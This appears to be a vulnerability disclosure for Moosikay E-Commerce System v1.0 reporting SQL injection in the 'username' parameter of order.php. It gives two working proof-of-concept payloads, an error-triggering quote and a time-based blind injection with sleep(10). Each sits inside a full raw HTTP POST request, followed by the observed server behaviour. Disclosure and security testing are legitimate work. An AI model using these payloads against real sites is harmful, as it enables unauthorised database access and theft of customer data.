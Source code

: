 # Moosikay - E-Commerce System v1.0 has SQL injection

BUG_Author:jidle

Website source address:https://www.sourcecodester.com/php/13060/moosikay-e-commerce-system.html

Vulnerability File: /Moosikay/order.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a'&password=b&login=

```
POST /Moosikay/order.php HTTP/1.1
Host: localhost
Content-Length: 29
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Moosikay/order.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close

username=a'&password=b&login=
```

An error occurred in the sql statement

![image](https://github.com/jidle123/picture/blob/main/error.png)

Payload2: username=a' and (select 1 FROM (select(sleep(10)))a)-- b&password=b&login=

```
POST /Moosikay/order.php HTTP/1.1
Host: localhost
Content-Length: 74
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Moosikay/order.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close

username=a' and (select 1 FROM (select(sleep(10)))a)-- b&password=b&login=
```

The response time of the server is 10 seconds

![image](https://github.com/jidle123/picture/blob/main/ten.png)
